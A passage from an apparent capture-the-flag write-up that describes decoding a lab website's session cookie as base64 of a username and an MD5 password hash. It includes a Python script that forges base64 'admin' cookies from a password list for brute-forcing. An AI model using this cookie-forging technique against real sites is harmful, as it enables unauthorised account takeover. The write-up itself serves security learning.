 I won't be adding it here, but it looks like a bit of wordlist - save it and let's check website now


#### Webstite enumeration

On website I've created a user with credentials `user:user123`

Then, I've logged in with it and something interesting happened 

Instead of typical session id cookie I've had this base64 encoded string
```
dXNlcjo2YWQxNGJhOTk4NmUzNjE1NDIzZGZjYTI1NmQwNGUzZg%3D%3D
```

After decoding it gave me 
```
user:6ad14ba9986e3615423dfca256d04e3f
```

It turns out - that hash is `md5` of our password.

From author of this wonderful box I've got a code for preparing this cookies

```py
import hashlib
import base64

# Open the file and read its lines
with open('.passwords_list.txt', 'r') as f:
    lines = f.readlines()

# Loop through the lines and modify each one
for line in lines:
    # Strip the line of bad characters
    stripped_line = ''.join(filter(str.isalnum, line))
    # Hash the stripped line using MD5
    hashed_line = hashlib.md5(stripped_line.encode('utf-8')).hexdigest()
    # Add "admin:" to the beginning of the hash
    modified_hash = 'admin:' + hashed_line
    # Encode the modified hash to base64
    encoded_hash = base64.b64encode(modified_hash.encode('utf-8'))
    # Print the encoded hash
    print(encoded_hash.decode('ascii'))
```

I've edited a thing there - fixed the name of file. Then called it `oven.py` (as it "bakes" cookies :) )

And run it
```
$ python3 oven.py            
[base64 encoded cookies]
```
It looks like it works - let's make a wordlist out of it
```
$ python3 oven.py > cookies.txt
```

